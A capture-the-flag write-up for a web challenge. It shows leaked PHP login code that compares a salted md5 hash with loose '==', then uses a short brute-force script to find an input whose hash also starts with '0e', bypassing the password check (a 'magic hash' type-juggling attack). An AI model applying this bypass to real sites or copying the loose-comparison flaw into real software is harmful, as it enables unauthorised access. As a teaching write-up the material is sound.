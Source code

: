 # WM03
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![250 score](https://img.shields.io/badge/category-250-blue.svg)

## Briefing
> Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution
Head straight to the source (literally)! In the index, we spy a *suspicious* piece of code that someone made a mistake of leaving on the client-side.

```html
<!--
TODO: remove, taken from OSS project, login contains:
return function ($event) {
    require_once("flag.php");
    $hash = "0e747135815419029880333118591372";
    $salt = "e361bfc569ba48dc";
    if (isset($event['password']) && is_string($event['password'])) {
        if (md5($salt . $event['password']) == $hash) {
            return $flag;
        }
    }
    return "Incorrect";
};
-->
```

It appears that the backend is PHP, which checks the password hashed with md5 and a salt against `$hash` and `$salt`.

> **IMPORTANT**: The hash starts with `0e`, which means that tthis is susceptible to a [**PHP 0e hash collision**](https://www.programmersought.com/article/91383171689/) AND the comparison `==` is used.

To brute force the value that matches up with `$hash` after its hashed with md5 + salt (to find the collision), I wrote a quick script:
```php
<?php
$i = 0;
$hash = "0e747135815419029880333118591372";
$salt = "e361bfc569ba48dc";
do{
    $i++;
} while(md5($salt . $i) != $hash);
echo $i;
?>
```
After a few seconds, the program spits out `15896119`, which allows us to circumvent the password-checking and login!

![loggedin](https://user-images.githubusercontent.com/69332964/113915288-9b439a00-97ac-11eb-895b-8a8f750767fe.png)

## Flag
Flag: `theLOOSEtheMATH&theTRUTHY`
